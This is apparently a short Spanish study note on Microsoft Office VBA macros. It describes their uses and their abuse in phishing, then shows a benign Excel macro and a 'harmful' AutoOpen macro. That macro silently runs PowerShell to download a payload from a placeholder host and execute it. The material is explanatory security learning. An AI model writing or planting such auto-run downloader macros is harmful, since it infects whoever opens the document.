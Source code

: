 ```yaml
---
Extra: 📄 Macros de Office
fecha: 2024-11-07
tags:
  - extra
  - ofuscacion
  - exploit
---
```


## Macros de Office

### Descripción

Las **Macros de Office** son secuencias de comandos creadas con **VBA (Visual Basic for Applications)**, utilizadas comúnmente para automatizar tareas en documentos de Microsoft Office como Word, Excel y PowerPoint. Sin embargo, también son conocidas por su uso malicioso en ataques cibernéticos, como la entrega de malware o la escalación de privilegios.

### Características clave

- **Automatización**: Permiten realizar tareas repetitivas y complejas con un solo clic.
- **Compatibilidad**: Funciona en varios programas de Office.
- **Potencial de abuso**: Utilizadas en ataques como phishing para ejecutar código malicioso.
- **Facilidad de uso**: Simple de crear, editar e incrustar en documentos.

### Ejemplo de uso benigno

Automatizar el cálculo de datos en un archivo Excel:

- Ejemplo sin daño:
```vba
Sub CalcularPromedio()
    Dim Rango As Range
    Set Rango = Selection
    MsgBox "El promedio es: " & Application.WorksheetFunction.Average(Rango)
End Sub
```

- Ejemplo con daño:
```vba
Sub AutoOpen()
    Dim Str As String
    Str = "powershell -Command ""Invoke-WebRequest -Uri 'http://example.com/payload.exe' -OutFile 'C:\payload.exe'; Start-Process 'C:\payload.exe'"""
    Shell Str, vbHide
End Sub
```

Ejemplo en word ->

![[Pasted image 20241210195150.png]]